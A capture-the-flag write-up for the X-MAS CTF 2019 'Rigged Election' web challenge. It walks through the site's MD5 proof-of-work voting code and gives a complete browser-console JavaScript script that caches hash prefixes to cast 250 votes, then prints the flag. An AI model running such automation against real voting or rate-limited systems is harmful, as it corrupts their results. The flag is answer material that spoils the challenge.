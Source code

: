 # X-MAS CTF 2019 – Rigged Election

* **Category:** web
* **Points:** 50

## Challenge

> Come one, come all! We've opened up a brand new website that allows the Lapland people to vote the next big town hall project! Just upload your ideas on the platform and vote using your CPU power. We've made sure voting takes a great amount of effort, so there's no easy way to play the system.
> 
> If you are indeed able to vote more than 250 times, you will be congratulated as an active Lapland citizen and receive a prize worthy of this title.
> 
> Remote server: http://challs.xmas.htsp.ro:11001
>
> Author: Milkdrop
>
> Note: The ideas you post are public and logged, posting any X-MAS flags may > disqualify your team
>
> Note 2: You must send all 250 votes from the same PHP session, otherwise the server will not be able to send you the flag.

## Solution

With the website you can submit an idea. An ID is assigned to that idea and the idea can be voted.

Here the HTML source.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
	<div class="container">
		<div id="status" class="status invisible"></div>

		<img src="/img/idea.gif">
		<h1 class="head"> Idea Voting System </h1>
		<img src="/img/idea.gif">

		<h2><i>Submit your idea:</i></h2>
		<form style="padding-left: 35px" action="/" name="newIdea" method="post">
			<textarea maxlength="31" style="margin-right: 45px; margin-bottom: 5px; height: 25px" placeholder="Name" cols="30" rows ="1" name="name"></textarea><br>
			<textarea maxlength="255" placeholder="I think that we should do X, because Y ..." cols="30" rows ="5" name="idea"></textarea>
			<input class="submitButton" type="submit" value="">
		</form>

		<div class="idea special"><b class="name">name</b> / 123456 Points<div class="vote">
						<div class="agree" onclick="vote(16773, 1)">(I agree)</div> / 
						<div class="disagree" onclick="vote(16773, 0)">(I disagree)</div>
					</div><div class="ideaText">Idea text.</div></div>
		<footer>
			As seen on Good Morning America
		</footer>

		<script src="/md5.js"></script>
		<script src="/index.js"></script>
	</div>
</body>
```

The JavaScript into `index.js` is the following.

```javascript
function generateRandom (length) {
	var result = '';
	var characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
	var charactersLength = characters.length;

	for (var i = 0; i < length; i++)
		result += characters.charAt (Math.floor (Math.random () * charactersLength));

	return result;
}

function vote (id, upvote) {
	var xhttp = new XMLHttpRequest ();
	xhttp.open ("GET", "/vote.php?g=1", false);
	xhttp.send ();
	var work = xhttp.responseText;

	var statusElement = document.getElementById ("status");
	statusElement.className = "status";
	statusElement.innerText = "CPU Voting on Idea #" + id + " ...";

	var found = false;
	while (!found) {
		var randomLength = Math.floor (7 + Math.random () * 18);
		var stringGen = generateRandom (randomLength);
		var md5Gen = md5 ("watch__bisqwit__" + stringGen);

		if (md5Gen.substring (0, work.length).localeCompare (work) === 0) {
			var url = "/vote.php?id=" + id + "&h=" + stringGen;
			if (upvote === 1)
				url += "&u=1";

			xhttp.open ("GET", url, false);
			xhttp.send ();
			found = true;
		}
	}

	location.href = "/";
}
```

The voting procedure requires that a sort of challenge is returned by the server after the first request, i.e. `xhttp.open ("GET", "/vote.php?g=1", false);`, and then the client has to find a string which produces a MD5 hash with the first characters equals to the challenge. The challenge is different each time.

To reduce the time of finding correct strings, a smart voter can be implemented, using a cache and storing all failed attempts. With this trick, after ~14M  requests all strings will be found inside the cache, reducing the time of generation.

The exploit is the following.

```javascript
function wait(ms) {
    var d = new Date();
    var d2 = null;
    do {
        d2 = new Date(); 
    } while(d2-d < ms);
}

function voteSmart(id) {
    
    const cacheLimit = 90000000;
    var cacheElements = 0;
    var cache = new Map();
    
    console.log("Start voting.");
    var votes = 0
    while(votes <= 250) {
    
        console.log("Cookies: " + document.cookie);
    
        var xhttp = new XMLHttpRequest ();
        xhttp.open ("GET", "/vote.php?g=1", false);
        xhttp.send ();
        work = xhttp.responseText;
        console.log("Work to find is: " + work);
        
        stringGen = "";
        if(work in cache) {
            console.log("Cache hit!");
            stringGen = cache[work];
            wait(1000);
        } else {
         
            var found = false;
            while(!found) {
                var randomLength = Math.floor(7 + Math.random () * 18);
                stringGen = generateRandom(randomLength);
                var md5Gen = md5("watch__bisqwit__" + stringGen);
                var md5Subs = md5Gen.substring(0, work.length);
                
                if(cacheElements < cacheLimit && !(md5Subs in cache)) { // Updating cache at runtime.
                    cache[md5Subs] = stringGen;
                    cacheElements++;
                    if(cacheElements % 1000000 == 0) {
                        console.log("There are " + cacheElements + " cache elements.")
                    }
                }

                if(md5Subs.localeCompare(work) === 0) {
                    found = true;
                }
            }
        }
        
        var url = "/vote.php?id=" + id + "&h=" + stringGen + "&u=1";
        xhttp.open ("GET", url, false);
        xhttp.send ();
        voteResult = xhttp.responseText;
        votes++;
        console.log(votes + " > " + voteResult);
        
        if(voteResult.includes("X-MAS{")) {
            alert(voteResult);
            break;
        }
         
    }
}

voteSmart(23148);
```

You can launch the exploit script into the browser console and then refresh the page to get the flag.

```
X-MAS{NASA_aint_got_n0thin_on_m3}
```